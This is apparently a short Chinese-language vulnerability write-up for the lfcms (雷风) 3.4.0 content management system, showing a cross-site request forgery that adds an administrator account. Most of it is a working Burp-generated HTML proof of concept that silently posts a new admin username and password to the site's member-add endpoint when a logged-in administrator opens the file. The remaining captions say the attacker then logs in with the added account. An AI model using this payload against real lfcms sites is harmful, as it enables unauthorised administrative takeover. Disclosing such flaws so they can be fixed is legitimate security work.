


### lfcms（雷风）

```
版本信息：3.4.0
```

#### CSRF添加管理员

火狐浏览器登录管理员，管理员在登录的情况下打开了攻击者构造的恶意文件

恶意文件

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.81.116:31001/admin.php?s=/Member/add.html" method="POST">
      <input type="hidden" name="username" value="demo" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="repassword" value="123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

管理员视角：成功添加了另外一个管理员



攻击者利用添加的账户登录



